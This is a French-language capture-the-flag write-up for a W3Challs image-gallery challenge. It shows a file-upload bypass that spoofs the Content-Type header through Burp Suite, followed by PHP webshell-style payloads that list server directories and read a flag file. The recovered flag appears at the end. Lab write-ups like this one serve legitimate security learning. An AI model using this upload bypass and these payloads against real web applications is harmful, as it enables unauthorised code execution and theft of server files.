 # An image gallery

1. Tout d’abord, allons sur le site
2. Ensuite, nous pouvons voir les informations dans la page d’accueil; vous pouvez télécharger des photos avec le formulaire de téléchargement. Les images sont ensuite stockées dans le répertoire des suggestions. 
3. Si vous essayez de visiter le "répertoire des suggestions", vous découvrirez que vous êtes interdit. Cependant, vous pouvez toujours visiter la partie image de celui-ci. Par exemple, téléchargez un fichier jpeg nommé 123.jpeg, et vous pouvez visiter l’image en tant qu’URL : http://gallery.hax.w3challs.com/suggestions/123
4. Donc, il y a quelque chose qui me vient à l’esprit, et si nous pouvions télécharger du code php qui nous permet de visiter le répertoire afin que nous puissions trouver le flag. (L’objectif est de trouver un répertoire qui stocke l’indicateur) Cependant, il y a un avertissement dans la page d’accueil : Pour des raisons de sécurité, seuls les fichiers jpeg sont acceptés.
5. Comme vous pouvez le voir, nous ne pouvons pas télécharger le fichier php, mais que se passe-t-il si nous pouvons le contourner? En voici quelques-uns [information](https://www.hackingarticles.in/5-ways-file-upload-vulnerability-exploitation/) que je trouve sur le web.
6. Une fois que nous connaissons quelques moyens de le contourner, nous avons besoin d’un outil : burp suite pour nous aider.
7. Maintenant, nous devons penser à du code php qui peut nous aider. Voici ma charge utile : 
    ```php
    <php?
        var_dump(scandir('..'));
    ?>
    ```
    Après cela, nous avons nommé un fichier "upload.php" et envoyez-le. Voici quelques informations sur burp suite: 
    ```
    Content-Disposition: form-data; name="upload_file"; filename="upload.php"
    Content-Type: text/php

    <?php
        var_dump(scandir('..'));
    ?>
    ```
    J’utilise la méthode sous « Content-Type file Upload » sur le site Web (bien sûr, vous pouvez utiliser une autre méthode pour atteindre l’objectif), donc je change le playload et l’envoie:
    ```
    Content-Disposition: form-data; name="upload_file"; filename="upload.php"
    Content-Type: image/jpeg

    <?php
        var_dump(scandir('..'));
    ?>
    ```
    Et obtenez le commentaire : Le fichier upload.php a été téléchargé correctement..
8. La prochaine étape maintenant est la visite http://gallery.hax.w3challs.com/suggestions/upload.php et je reçois les informations ci-dessous : 
    ```php
    array(11) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(9) "basic.css" [3]=> string(3) "css" [4]=> string(6) "images" [5]=> string(9) "index.php" [6]=> string(2) "js" [7]=> string(4) "lang" [8]=> string(8) "lang.php" [9]=> string(14) "omg_secret_wut" [10]=> string(11) "suggestions" } 
    ```
    Donc, il y a un fichier très intéressant nommé "omg_secret_wut", je décide d’y jeter un coup d’œil. 
    ```php
    <?php
        var_dump(scandir('../omg_secret_wut'));
    ?>
    ```
    Ensuite on obtient : 
    ```php
    array(3) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(4) "flag" } 
    ```
9. Comme vous pouvez le voir, il y a le flag. Voici le playload utile pour l’obtenir : 
    ```php
    <?php
        var_dump(file_get_contents('../omg_secret_wut/flag'));
    ?>
    ```
**10. Voici le flag :** `W3C{W3lc0m3_t0_y0u_w3b_sh3ll}`
